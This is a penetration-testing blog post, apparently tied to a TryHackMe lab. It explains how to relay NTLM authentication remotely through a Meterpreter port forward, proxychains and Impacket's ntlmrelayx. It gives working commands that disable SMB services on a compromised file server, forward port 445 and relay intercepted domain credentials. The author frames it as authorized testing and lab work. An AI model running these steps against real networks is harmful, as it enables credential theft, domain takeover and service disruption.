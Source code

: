 ```yaml
---
layout: post
title: Remote NTLM Relaying via Meterpreter
gh-badge:
  - star
  - fork
  - follow
tags:
 - TryHackMe
 - Windows
 - Active Directory
 - Cyber Security
comments: true
published: true
date: '2020-12-15'
---
```


### NetNTLM Relaying basics
NTLM Relaying is an Active Directory attack vector that commonly makes use of Man-In-The-Middle tools like Responder, MITM6, and others to intercept Active Directory protocols like SMB, HTTP, LDAP, etc to hijack a session and "relay" or redirect the intercepted session to the target host of your choise. 
It's important to understand that NetNTLM uses a challenge based request and response system, so you cannot replay NetNTLM traffic, only relay it. In order to Relay NetNTLM-Based traffic the Impacket developers have created a special tool called NTLMRelayX. NTLMRelayX brokers communications on our behalf and manages the challenge based request and response that enables us to successfully authenticate to a Server. It does so by holding the <insert protocol> session open and proxies the challenge that the server issues to the client, but never closes the session so you can authenticate to the server on an on-demand basis. In order to enable this functionality, you need to use the "-socks" flag, but by default, it will simply it will simply make use of other Impacket tools (like SecretsDump.py, if you relay to SMB, ACLPWN if you relay to LDAP/S, etc) but that's beyond the scope of what this article is trying to acomplish today. This seems really complicated, but is actually quite simple. I promise, I'm just bad at explaining overly technical topics. Impacket does a great job with documentation, if you'd like to learn more about NTLMRelayX, you can do so here: [https://blog.fox-it.com/2017/05/09/relaying-credentials-everywhere-with-ntlmrelayx/](https://blog.fox-it.com/2017/05/09/relaying-credentials-everywhere-with-ntlmrelayx/)

### Remote N.T.L.M. Relaying

I deem this attack vector called Remote N.T.L.M. Relaying (Never Trust Lan Man) purely because of how severe it can be. If you execute this attack on the correct host, Remote NTLM Relaying can incredbibly disruptive. This attack vector can be used on virtually any Windows host of your choosing as long as you have local Administrative rights, however, I suggest the primary target to be File Servers because these will gain the most traction. Lots of File Server Shares are often auto-mounted via Startup Scripts when a user logs onto their Account, this making it the best option in my opinion. If all users in an AD Domain have a folder that auto-mounts, you simply need to compromise the File Server, gain local Administrative Rights, and execute this attack and play the waiting game for a Domain/Enterprise Admin to log into their account and then it's game over.

### Initial Warning

As previously stated, this attack vector is incredily distruptive. It requires exactly 1 OS Restart to disable Active Directory services, and 1 OS Restart to re-enable them. If you are going to use this attack vector on an engagement, make sure you have **explicit authorization from the client**. Responsibility soley lies on the Attacker, and not myself. This is your official "This can break things, I take no responsibility for what you do. Lab it before you try it, understand the risks" and yada yada. 

### How To Preform Remote N.T.L.M. relaying

Anyways, onto the good stuff. With normal NTLM Relaying, insure you have a target selected that does not require Signing (We're going to use SMB in this demo, so I will here-on in refer to this as SMB signing exclusively). Secondly, ensure Impacket, NTLMRelayX, Meterpreter and Proxychains are all installed. All will be required for Remote NTLM relaying. Lastly, ensure that you have local administrator access, access via XFreeRDP/Remmina may break, so you should plan to fall back on rdesktop

On the victim, there's several services that need to be stopped/disabled/disabled at startup to ensure SMB services don't start, you'll need to execute the following commands:

```
sc stop netlogon
sc stop lanmanserver
sc config lanmanserver start= disabled
sc stop lanmanworkstation
sc config lanmanworkstation start= disabled
```

Ensure that all of the commands executed without failure. If successful, they should look like so:

![lanmanserver.png](https://raw.githubusercontent.com/Sq00ky/SpookySec-Blog/master/img/lanmanserver.png)

After all the services are disabled, restart the victim machine. After the machine restarts, run a quick port-scan on port 445 and ensure that it is marked as "Closed". This means you successfully disabled all the SMB-related services on the victim host. Next, you want to execute a Meterpreter shell on the target host, so we can setup a Remote Port Forward. We can do so with the following command in a Meterpreter Session:

```
portfwd add -R -L 127.0.0.1 -l 445 -p 445
```

This will capture traffic destined for our victim on remote port 445 and forward it to local port 445. 

![portfwd.png](https://raw.githubusercontent.com/Sq00ky/SpookySec-Blog/master/img/portfwd.png)

Next we need to mascarade the host that our traffic is coming from and make it appear that it's coming from the victim and not us. We can do this with Metasploit's SOCKS5 server. Simply execute "use auxiliary/server/socks5" and "run" and our SOCKS5 server is ready to go. Lastly, we need to add the SOCKS5 proxy to our ProxyChains config, it's default config location on Kali is /etc/proxychains.conf. We simply need to add comment the last SOCKS4 proxy out and add "socks5 127.0.0.1 1080" and we're ready to rock.

All thats left is to proxy NTLMRelayX through proxychains and wait for the hashes to roll in. In a normal corporate network it may take a bit for a user with Local Administrative access to your target to attempt to access the SMB server, but remember, if it's an automounted script, you shouldn't have to wait too long. Back to NTLMRelayX

```
proxychains ntlmrelayx.py -t smb://10.200.69.30 -smb2support
```

![success.png](https://raw.githubusercontent.com/Sq00ky/SpookySec-Blog/master/img/success.png)

Some trouleshooting and tweaking may be required for this to work, this exploit is very tricky to get working and takes a lot of time and patience. Personally, I recommend looking into tweaking the Port Forwarding settings, because I think there may be a better way of doing it. Coming soon Myself and [Cryillic](https://twitter.com/Real_Cryillic) will be releasing a lab based off of this attack vector called "Holo". as of 12/15/2020 it's currently in beta testing and should be released (hopefully) by Christmas :). Keep an eye on TryHackMe's [Hacktivites Page](https://tryhackme.com/hacktivities) for an estimated release date.

As always, thanks for reading <3

